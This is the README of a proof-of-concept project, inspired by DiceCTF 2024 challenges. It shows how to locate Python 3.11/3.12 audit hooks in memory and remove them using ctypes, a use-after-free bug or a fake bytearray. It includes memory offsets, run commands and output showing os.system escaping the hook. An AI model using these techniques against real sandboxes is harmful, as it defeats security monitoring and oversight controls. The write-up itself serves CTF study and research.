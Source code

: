 # python audit_hooks head finder

This POC intends to show how to find the audit hook and use `ctypes` to pop it (~~SMASH it~~).

The idea is inspired by `misc/diligent-auditor` and `misc/IRS` challeneges and their solve scripts from [dicectf-quals-2024 CTF](https://github.com/dicegang/dicectf-quals-2024-challenges/).

# Ref
Diligent auditor from *organizers*: <https://ur4ndom.dev/posts/2024-02-11-dicectf-quals-diligent-auditor/>  
IRS writeup from *Maple Bacon*: <https://maplebacon.org/2024/02/dicectf2024-irs/>

## Tested environment
```
Python 3.12.4 (main, Jun  7 2024, 06:33:07) [GCC 14.1.1 20240522] on linux
Python 3.12.3 (tags/v3.12.3:f6650f9ad7, Jun 24 2024, 16:32:34) [GCC 14.1.1 20240522] on linux
Python 3.11.9 (main, Jun 23 2024, 04:47:27) [GCC 14.1.1 20240522] on linux
```

## Offsets
### For ctypes
```python
# ONLY TESTED ON PYTHON 3.12 and 3.11
# the offsets are from POC.py
if sys.version_info[:2] == (3, 12):
    # PTR_OFFSET = [0x41448, -0x11df0] # <= 3.12.3
    PTR_OFFSET = [0x41448, -0x11e20] # for python3.12.4
else:
    PTR_OFFSET = [0xe00, -0xe388]
```

### For UAF
```python
# ONLY TESTED ON PYTHON 3.12 and 3.11
# the offsets are from POC-no-ctypes.py
# offset for audit hook set by Python and C
if sys.version_info[:2] == (3, 12):
    # PTR_OFFSET = [0x468f0, -0xc948] # <= 3.12.3
    PTR_OFFSET = [0x46920, -0xc948] # 3.12.4
else:
    PTR_OFFSET = [0x4d558, 0x3e3d0] # 3.11
```

## Smash Audit hook using `ctypes`
### Concept
For audit hook set in Python: according to the "fixed" offsets between `ctypes.byref(ctypes.py_object(()))` and `GET_INTERP_ADDR()->audit_hooks` pointer under `PyInterpreterState`, we can cast `audit_hook` to `Py_ListObject` by address and pop it.  
For audit hook set in C: according to the "fixed" offsets between `ctypes.byref(ctypes.py_object(()))` and `_PyRuntime.audit_hooks.head` pointer under `PyRuntimeState`, we can directly rewrite the head of audit hooks to `NULL`.
### How to use
```bash
# or ./build311.sh
./build.sh
./POC.py
./POC2.py
```

### Output
```bash
> ./POC.py
C audit hook triggered! event=sys.addaudithook
--- finished setup ---
PyInterpreterState_addr=0x64df082debe8
PyRuntimeState_addr=0x64df082cc180
PyInterpreterState.audit_hooks_ptr_addr=0x64df0831ffb0
PyRuntimeState.audit_hooks_ptr_addr=0x64df082ccd78

audit_hook_ptr_offset_by_py=0x41448
audit_hook_ptr_offset_by_c=-0x11df0
len=1 should be 1
C audit hook triggered! event=os.system
audit hook triggered! ('os.system', (b"echo 'test audit hook -- this will trigger hook'",))
test audit hook -- this will trigger hook
test audit hook -- this will not
> ./POC2.py
audit hook triggered! ('sys.addaudithook', ())
--- finished setup ---
C audit hook triggered! event=os.system
audit hook triggered! ('os.system', (b"echo 'test audit hook -- this will trigger hook'",))
test audit hook -- this will trigger hook
test audit hook -- this will not

```

## Smash Audit hook without `ctypes`
> ref: <https://maplebacon.org/2024/02/dicectf2024-irs/>

[UAF POC](./UAF-issue91153.md)
### How to use
```bash
# or ./build311.sh
# build the helper binary
./build.sh
# brute-force the offsets
./POC-no-ctypes.py
# verify the offsets works
./POC2-no-ctypes.py
```

## Smash Audit hook with fake bytearray
> ref: <https://www.da.vidbuchanan.co.uk/blog/35c3ctf-collection-writeup.html> and <https://github.com/gousaiyang/my-ctf-challenges/tree/master/PyAuCalc>

### How to use
```bash
./build.sh
./POC-fake-bytearray.py
```

## TODO
- [x] Use <https://github.com/python/cpython/issues/91153> to smash it without `ctypes`
- [x] Find a way to get the `audit_hook` address without using `ctypes`
- [ ] Use <https://bugs.python.org/issue43838> to smash it?
